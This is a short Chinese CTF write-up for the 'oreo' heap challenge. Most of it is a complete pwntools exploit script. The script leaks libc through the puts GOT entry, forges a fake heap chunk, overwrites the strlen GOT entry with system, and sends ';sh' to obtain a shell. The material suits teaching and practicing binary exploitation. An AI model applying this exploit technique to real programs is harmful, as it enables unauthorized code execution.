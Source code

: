 最后相当于调用 `system("\x??\x??\x??;sh")` 很巧妙 0.0  
head 指针指向 notice     
![](http://p6cwaqxnz.bkt.clouddn.com/oreo-notice.png?imageView2/2/w/400)

getshell:   
![](http://p6cwaqxnz.bkt.clouddn.com/oreo-yeah.png)

本地 libc 地址 直接`vmmap`就看到了。
```python
from pwn import *
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
log.info('PID: ' + str(proc.pidof(p)[0]))
#libc = ELF('./libc.so.6')
libc=ELF('/lib/i386-linux-gnu/libc-2.24.so')

def add(name, descrip):
    p.sendline('1')
    p.sendline(name)
    p.sendline(descrip)

def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')

def order():
    p.sendline('3')

def message(notice):
    p.sendline('4')
    p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)

def exp():
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(name, 'b')
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    log.success(hex(system_addr))
    oifle = 1
    while oifle < 0x3f:
        add('a' * 27 + p32(0),'b')
        oifle += 1
    add("a","b")
    order()
    add('a' * 27 + p32(0)+p32(0)+p32(0x41)+p32(0x0804a2a8-8),'b')
    add('a','b')
    add("a",p32(oreo.got['strlen']))
    gdb.attach(p)
    message(p32(system_addr)+";sh\x00")
    p.interactive()

```
